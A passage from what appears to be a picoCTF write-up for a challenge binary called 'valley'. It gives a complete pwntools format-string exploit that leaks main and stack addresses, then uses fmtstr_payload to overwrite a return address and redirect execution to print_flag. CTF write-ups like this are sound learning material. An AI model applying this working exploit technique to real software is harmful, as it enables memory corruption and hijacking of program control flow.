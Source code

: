 Finally, we can use `fmtstr_payload` to craft a payload that will modify a value at a certain memory address.
```py
# Craft the payload to write the new value to the specified address
payload = fmtstr_payload(format_string.offset, {leaked_stack: leaked_main}, write_size="short")
p.sendline(payload)
print(p.recv())

# make the function return, and end up in the print_flag
p.sendline(b"exit")
print(p.recvall())
```
The write_size="short" is important (I got stuck on it for a while!) to reduce the size of the payload. This will attempt to write the values byte-by-byte, as opposed to all at once. The input buffer is only 100 bytes, so we need to make sure that our payload doesn't exceed that.

The full exploit looks like this:
```py
from pwn import *

context.log_level="DEBUG"
context.binary=ELF("./valley")

# Start the process
p = remote('shape-facility.picoctf.net', 58316)
#p = process("./valley")

# First line is just introduction
print(p.recv())

def send_payload(payload):
    p.sendline(payload)
    return p.recv()
format_string = FmtStr(execute_fmt=send_payload)
print(format_string.offset)

# leak address of main
p.sendline(b"%21$p")
leaked_main = p.recv().decode("utf-8").strip()[27:]
leaked_main = int(leaked_main, 16)
leaked_main -= 426 # offset

# leaked address of stack
p.sendline(b"%20$p")
leaked_stack = p.recv().decode("utf-8").strip()[27:]
leaked_stack = int(leaked_stack, 16)
leaked_stack -= 8 # offset

print(hex(leaked_main))
print(hex(leaked_stack))

# Craft the payload to write the new value to the specified address
payload = fmtstr_payload(format_string.offset, {leaked_stack: leaked_main}, write_size="short")
p.sendline(payload)
print(p.recv())

# make the function return, and end up in the print_flag
p.sendline(b"exit")
print(p.recvall())
```

